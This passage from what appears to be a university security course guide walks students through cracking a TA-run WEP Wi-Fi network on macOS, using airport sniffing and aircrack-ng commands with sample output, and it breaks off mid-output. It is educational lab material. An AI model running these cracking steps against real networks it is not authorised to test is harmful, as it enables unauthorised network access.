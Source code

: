   7. Install **dpkt**:
  ```
  pip install dpkt
  ```
*I will be using Mac OS X (v10.12.6) for this guide, so refer to different resources if you're using a different OS.*

#### 3.2.1.1 WEP Cracking

The very first thing you need to do in Checkpoint 2 is to crack a Wifi network that TAs set up and find out the WiFi password (WEP key). Though it may sound hard, WEP is one of the huge failures in security and can be easily cracked by aircrack-ng. Assuming everything is correctly set up, first figure out which channel to sniff by running:
```
sudo airport -s
```
which will list all the wireless networks around you. In it, you will find something like this:
```
        SSID BSSID             RSSI CHANNEL HT CC SECURITY (auth/unicast/group)
cs461mp3fa17 60:38:e0:11:9b:b2 -30  1       Y  -- WEP
```
If not, the router is not up and running, and you might need to consult to the TA in charge. But if you are able to identify a WEP network like above, sniff the selected channel (in this case, 1):
```
sudo airport en0 sniff [CHANNEL]
```
If you are getting a help message after running the above command, it might be because the OS X version is different. Go to Network Utility on your Mac to check which ethernet port is for WiFi. (The other case is usually *en1*.) After running the sniff command, you will start to capture 802.11 packets. If so, open another terminal and find the capture file which is located in /tmp/airportSniff*.cap. After locating the capture file, run:
```
aircrack-ng -1 -a 1 -b [TARGET_MAC_ADDRESS] [CAP_FILE]
```
where TARGET_MAC_ADDRESS is BSSID found earlier (in this case, 60:38:e0:11:9b:b2) and CAP_FILE is the name of the capture file you found in /tmp. Executing aircrack-ng might give you:
```
                                 Aircrack-ng 1.2 rc4


                 [00:00:01] Tested 131137 keys (got 9619 IVs)

   KB    depth   byte(vote)
    0   16/ 17   BC(12032) 9A(12032) BF(12032) D5(12032) FB(12032) 
    1    7/  9   06(13824) 35(13312) 61(13312) 0E(13056) B8(12800) 
    2   10/ 12   E2(12288) 48(12288) 3D(12032) 86(12032) 63(12032) 
    3   29/  3   D2(11776) 1E(11520) F1(11520) 1C(11520) DF(11520) 
    4   23/  4   0E(11776) 56(11520) 4B(11520) E8(11520) 9B(11520) 

   Attack failed. Possible reasons:

     * Out of luck: you must capture more IVs. Usually, 104-bit WEP
       can be cracked with about 80 000 IVs, sometimes more.

     * Try to raise the fudge factor (-f).
```
This means you have not collected enough IVs to crack WEP, and you need to wait a bit more until you have sufficient IVs. Generally, you need around 20,000 IVs, which takes around 10-20 minutes, but it really depends on luck. It should not take more than an hour however. Successful cracking will show:
```
                                                     Aircrack-ng 1.2 rc4


                                     [00:00:03] Tested 1872 keys (got 18506 IVs)

   KB    depth   byte(vote)
```